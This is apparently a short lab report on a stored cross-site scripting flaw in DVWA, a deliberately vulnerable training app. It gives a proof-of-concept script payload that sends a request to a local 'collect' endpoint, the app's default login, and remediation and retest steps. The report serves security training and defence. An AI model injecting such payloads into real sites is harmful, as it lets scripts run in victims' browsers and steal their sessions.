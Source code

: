 # DVWA — XSS (Stored) (low)

<div class="report-title">
  <h1>Security Micro-Scan</h1>
  <div class="kv">
    <div><span>Client:</span> DVWA Lab</div>
    <div><span>Date:</span> 2025-09-26</div>
    <div><span>Author:</span> Braxton Beck (Ben-Frank17)</div>
  </div>
</div>

<div class="box sev-high">
<strong>Severity:</strong> High — Stored XSS persists payload and can affect many users.
</div>

## Summary
Stored XSS occurs when attacker-supplied data is saved on the server and later rendered in other users' browsers without encoding. This allows persistent script execution.

## PoC
**Payload:** `<script>fetch('http://127.0.0.1:8000/collect?c=1')</script>`  
**Steps**
1. Login to DVWA (`admin` / `password`), set Security = **low**.  
2. Navigate to the vulnerable input (e.g., comment or profile field).  
3. Submit the payload and save.  
4. Open the page as another user or refresh; the script runs. (see screenshot)

**Evidence**
- Screenshot: `dvwa_xss_stored.png`

## Impact
Stored XSS can steal session cookies, perform actions on behalf of victims, or deploy worm-like payloads across users.

## Remediation
- Output-encode user-supplied data before rendering.  
- Use frameworks that auto-escape template content.  
- Implement Content Security Policy and input validation.

## Retest
Post a benign test payload and verify it renders escaped text rather than executing.
